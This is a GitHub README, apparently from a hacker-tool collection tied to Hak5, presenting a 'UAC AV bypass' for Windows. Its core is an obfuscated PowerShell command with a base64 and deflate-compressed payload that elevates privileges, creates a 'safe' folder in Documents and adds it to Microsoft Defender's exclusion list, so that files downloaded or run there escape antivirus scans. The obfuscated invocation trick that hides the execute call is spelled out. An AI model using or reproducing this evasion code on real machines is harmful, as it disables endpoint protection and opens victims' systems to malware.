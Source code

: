 ![Logo](https://github.com/I-Am-Jakoby/hak5-submissions/blob/main/Assets/logo-170-px.png?raw=true)

<!-- TABLE OF CONTENTS -->
<details>
  <summary>Table of Contents</summary>
  <ol>
    <li><a href="#Description">Description</a></li>
    <li><a href="#The-Function">The Function</a></li>
    <li><a href="#Examples">Examples</a></li>
    <li><a href="#Contact">Contact</a></li>
    <li><a href="#Acknowledgments">Acknowledgments</a></li>
  </ol>
</details>

# User-Access-Control Anti-Virus Bypass

## Description

A UAC AV bypass 

## The Function

### [FUNCTION-NAME] 

This command will open a powershell console with admin privledges and run the Base64 script in the $Payload variable 
The Base64 script will make a directory called "safe" in your Documents folder
This directory that is created will be added to the Microsoft Defender Exclusions list which makes it ignored by AntiVirus scans 
Any files downloaded or ran from here will be ignored by the anti virus

```
$Payload = "JABwAGEAdABoAD0AIgAkAEUAbgB2ADoAVQBTAEUAUgBQAFIATwBGAEkATABFAFwARABvAGMAdQBtAGUAbgB0AHMAXABzAGEAZgBlACIAOwBtAGsAZABpAHIAIAAkAHAAYQB0AGgAOwBBAGQAZAAtAE0AcABQAHIAZQBmAGUAcgBlAG4AYwBlACAALQBFAHgAYwBsAHUAcwBpAG8AbgBQAGEAdABoACAAJABwAGEAdABoAA=="
( nEw-obJECt Io.cOMprEssion.dEfLAtEStreAM([iO.MEMoRysTream][coNVerT]::FrOMBasE64sTring( 'hY69CsIwFEZf5RK6ph0ci1MHBZEKQacsoflahfyRRKpvb1MQnOp2h3vOd6r+fNiz4GfEdIcxNV4gDjdQdVFv45Um1kZMpPRyHU/dVQo/5llFyM6olJBk7e0kRaFlH+Dk4K1VTjNqNFWLn5rxn8ImnpDzw01Jds94Q1xpVtSs8KPXy0BALIGtyCpmLgwQiCfarXoNg4zNSPZN2f79rVmRDw=='), [SySTEM.Io.cOmprEsSION.comprEsSiOnmOdE]::DECoMPress )| ForeAch{ nEw-obJECt IO.stReaMReAdEr( $_, [SYSTEm.TEXT.encODINg]::aSciI ) } |ForEaCh { $_.rEAdtoENd() } )|& ( $VeRBosEPreFEreNcE.tosTRING()[1,3]+'x'-joIN'')

```

<p align="right">(<a href="#top">back to top</a>)</p>


## Examples 
[//]: # (Examples of scripts that have used your function) 
Listed below are payloads that have used one of these functions:

No payloads are currently using this bypass. Some will be soon.


<p align="right">(<a href="#top">back to top</a>)</p>

<!-- CONTACT -->
## Contact

<div><h2>I am Jakoby</h2></div>
  <p><br/>

  <img src="https://media.giphy.com/media/VgCDAzcKvsR6OM0uWg/giphy.gif" width="50"> 

  <a href="https://github.com/I-Am-Jakoby/">
    <img src="https://img.shields.io/badge/GitHub-I--Am--Jakoby-blue">
  </a>

  <a href="https://www.instagram.com/i_am_jakoby/">
    <img src="https://img.shields.io/badge/Instagram-i__am__jakoby-red">
  </a>

  <a href="https://twitter.com/I_Am_Jakoby/">
    <img src="https://img.shields.io/badge/Twitter-I__Am__Jakoby-blue">
  </a>

  <a href="https://www.youtube.com/c/IamJakoby/">
    <img src="https://img.shields.io/badge/YouTube-I_am_Jakoby-red">
  </a>

</p>



<p align="right">(<a href="#top">back to top</a>)</p>

<!-- ACKNOWLEDGMENTS -->
## Acknowledgments

* [Hak5](https://hak5.org/)
* [UberGuidoZ](https://github.com/UberGuidoZ)

***

[HOME-PAGE](https://github.com/I-Am-Jakoby/PowerShell-for-Hackers)

<p align="right">(<a href="#top">back to top</a>)</p>

